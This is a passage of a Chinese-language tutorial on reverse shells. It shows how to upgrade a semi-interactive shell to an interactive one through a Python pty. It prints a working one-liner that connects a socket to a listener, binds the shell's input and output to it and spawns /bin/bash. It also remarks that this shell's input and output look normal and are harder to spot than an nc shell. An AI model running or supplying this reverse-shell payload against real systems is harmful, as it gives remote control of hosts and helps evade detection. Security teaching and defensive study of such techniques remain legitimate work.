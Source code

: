 ### 4、交互式

半交互式反弹 shell 虽然有了一定程度的交互能力，但距离一个终端还是有很大的距离，为了提高交互能力，将半交互式提升 为交互式，我们需要引入伪终端 pty 。引入伪终端，不仅增强了交互能力，而且有了更强的对抗能力。生成交互式反弹 shell 常见的有两种方式，一种是直接反弹 pty ，另一种是在普通反弹 shell 中生成 pty 。

#### 1、直接反弹 pty

在 Python 中有一个 pty 的包，专门用来生成伪终端，我们可以使用 pty 反弹 bash ，并与之绑定

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

在控制端输入 top 命令，看看是否有动态输出：

![](../../.gitbook/assets/image%20%28449%29.png)

接着查看反弹 bash 的输入输出上是否有管道或者 socket 绑定，我们发现 pty 反弹 bash 的输入输出和正常一样，这也是和 nc 反弹 不同的点

![](../../.gitbook/assets/image%20%28454%29.png)
